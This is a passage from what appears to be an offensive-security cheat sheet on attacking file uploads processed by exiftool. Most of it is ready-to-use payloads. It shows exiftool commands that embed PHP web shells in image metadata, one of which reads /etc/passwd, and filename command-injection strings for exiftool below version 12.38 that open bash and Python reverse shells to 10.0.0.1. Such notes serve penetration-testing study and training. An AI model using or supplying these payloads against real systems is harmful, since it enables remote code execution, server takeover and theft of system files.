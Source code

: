 ## [Polyglot Attack](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack-on-exiftool/#polyglot-attack)

We might be able to execute remote code by polyglotting the original plain image file.  
At first, create a blank image file as below, but this step may be not required if you already have some image file.

```sh
convert -size 32x32 xc:white test.jpg
```

Then insert **OS command** with **exiftool**.

```sh
exiftool -Comment="<?php system('ls'); ?>" example.png
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.png
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```

  
  

## [Command Injection (version < v12.38)](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack-on-exiftool/#command-injection-(version-%3C-v12.38))

On Exiftool version lower than **12.38**, we can inject **OS command** in the filename when uploading.

```bash
# Ping
filename="touch test; ping -c 1 10.0.0.1 |"

# Reverse shell
filename="touch test; bash -i >& /dev/tcp/10.0.0.1/4444 0>&1 |"
filename="touch test; bash -c \"bash -i >& /dev/tcp/10.0.0.1/4444 0>&1\" |"
filename="touch test; python3 -c 'import socket,os,pty;s=socket.socket();s.connect((\"10.0.0.1\", 1234));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"bash\")' |"
```